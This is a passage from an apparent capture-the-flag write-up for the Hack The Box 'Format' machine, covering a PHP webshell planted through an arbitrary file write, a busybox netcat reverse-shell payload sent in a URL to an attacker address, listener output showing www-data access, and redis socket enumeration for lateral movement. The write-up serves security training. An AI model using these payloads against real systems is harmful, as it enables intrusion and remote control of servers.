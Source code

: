 ![The pro star shows that our exploit works](Images/pro.png)

### Arbitrary File Write to create a webshell
Next, writing a basic php webshell into uploads/rev.php:

![](Images/burp1.png)

Verifying webshell upload:

![](Images/id.png)

Since the blog pages are reset frequently, it is best to transition to a reverse shell. A simple payload using `busybox`:
```
http://testa.microblog.htb/uploads/rev.php?cmd=busybox%20nc%2010.10.14.8%208888%20-e%20/bin/bash
```
and on our listener, we now have a reverse connection:
```
┌──(kali㉿kali)-[~/Documents/Format]
└─$ nc -nvlp 8888                       
listening on [any] 8888 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.213] 58190

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Lateral Movement
### Enumerating redis database
Reviewing the user `cooper`'s home directory, we see a `rediscli_history`. Although unreadable, it is notable that redis is being used by more than just the web server. We can attach to the redis socket ourselves to enumerate:
```
www-data@format:/var/lib/redis$ redis-cli -s /var/run/redis/redis.sock
```